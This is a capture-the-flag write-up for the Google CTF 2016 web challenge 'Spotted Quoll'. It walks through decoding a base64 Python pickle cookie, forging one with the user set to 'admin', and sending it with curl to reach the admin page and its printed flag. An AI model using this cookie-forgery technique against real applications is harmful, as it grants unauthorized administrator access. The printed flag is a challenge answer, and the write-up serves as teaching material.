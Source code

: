 ```yaml
---
layout: post
alias: "/blog/2016/05/02/google-ctf-2016-spotted-quoll/"
title: "Google Capture The Flag 2016: Spotted Quoll"
date: 2016-05-02T02:33:29+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


You can find the file `/getCookie` in html, so try to GET:

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/getCookie
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Date: Sun, 01 May 2016 06:38:21 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Expires: Sun, 01 May 2016 06:38:21 GMT
```

A mysterious cookie is given.
The string `obsoletePickle` seems something like python's `pickle`.
This is true, you can decode this as pickle after base64. (this are a word `obsolete`, but you can decode not only Python 2.x, also Python 3.x).

``` python
>>> pickle.loads(base64.b64decode(b'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

Due to the error message with above cookie is `https://spotted-quoll.ctfcompetition.com/#err=user_not_found`, lets try send a cookie baked with:

```
>>> base64.b64encode(pickle.dumps({'user': 'admin', 'subtle': 'hint', 'python': 'pickles'}, protocol=0))
b'KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4='
```

To avoid such a error `https://spotted-quoll.ctfcompetition.com/#err=unsupported%20pickle%20protocol%3A%203`, you should specify the pickle-protocol as $0$.

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/admin --cookie obsoletePickle=KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4=
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:53:33 GMT
Server: Google Frontend
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```
